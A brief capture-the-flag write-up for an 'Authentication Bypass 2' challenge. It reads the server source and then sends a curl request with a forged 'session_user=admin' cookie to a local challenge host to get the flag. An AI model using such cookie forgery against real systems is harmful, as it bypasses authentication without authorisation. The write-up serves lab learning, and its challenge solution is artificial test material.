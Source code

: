 # Authentication Bypass 2

```shell
cat /challenge/server
```

The GET request expects a cookie "session_user" /
If it is absent, login page is displayed. If present and equal to "admin" flag is displayed /

```shell
curl -v --cookie "session_user=admin" http://challenge.localhost/
```
